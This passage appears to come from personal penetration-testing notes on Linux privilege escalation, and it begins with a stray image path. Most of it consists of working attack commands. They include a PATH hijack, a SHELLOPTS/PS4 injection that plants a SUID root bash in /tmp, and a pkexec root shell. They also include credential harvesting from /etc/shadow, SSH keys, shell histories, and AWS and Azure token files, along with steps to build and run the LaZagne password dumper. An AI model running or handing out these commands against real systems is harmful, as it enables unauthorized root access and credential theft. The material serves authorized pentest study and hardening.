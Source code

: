 compile custom executable with name of file suid binary is calling
set PATH variable to current directory and run suid binary  

    PATH=.:$PATH /usr/local/bin/suid-env
### SUID Binary Function Replace  
    strings /usr/local/bin/suid-env2  
    
    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p' 
    
### Misc SUID binaries 
use binary to exec /bin/bash -p 

    pkexec --user root /bin/sh  
## Services Running as Root / Services Only Running Locally   
mysql running as root [exploit](https://www.exploit-db.com/exploits/1518)  

    ps -aux | grep root 
    netstat -etulp 
    ftp, telnet - tcpdump to sniff creds??    
  
Service running locally:      
Can use Proxychains to access, socat, https://github.com/fatedier/frp to make a reverse proxy, make a firewall rule etc.     
If the service is MySQL or another database - can you just pull the database file?       
  
    config file: /etc/proxychains.conf    
  
## Passwords / config files  
[LaZagne](https://github.com/AlessandroZ/LaZagne/tree/master): search for creds     

  git clone https://github.com/AlessandroZ/LaZagne.git    
  pip install -r requirements.txt    
  #compile Lazagne (move into OS folder)    
  pip install pyinstaller      
  pyinstaller --onefile -w laZagne.py      

  ./lazagne64 all    #search with all modules    
  
Files to check:  
  
    /etc/passwd, /etc/shadow, /etc/sudoers  read or write?? 
    cat ~/.ssh  
    cat ~/.*history | grep -i passw    #check .bash_history, .mysql_history 
    last -f /var/log/btmp    #failed logins, look for password as username    
    cat /home/*/.aws/credentials   #AWS creds       
    cat /home/*/.azure/accessTokens.json    #Azure login token    
    
search for strings (search for username if scripts aren't picking up creds):

    grep -rwl "password" /var     
    find . -iname 'config' -type f    #find config files     

   
### Writeable /etc/passwd or /etc/shadow
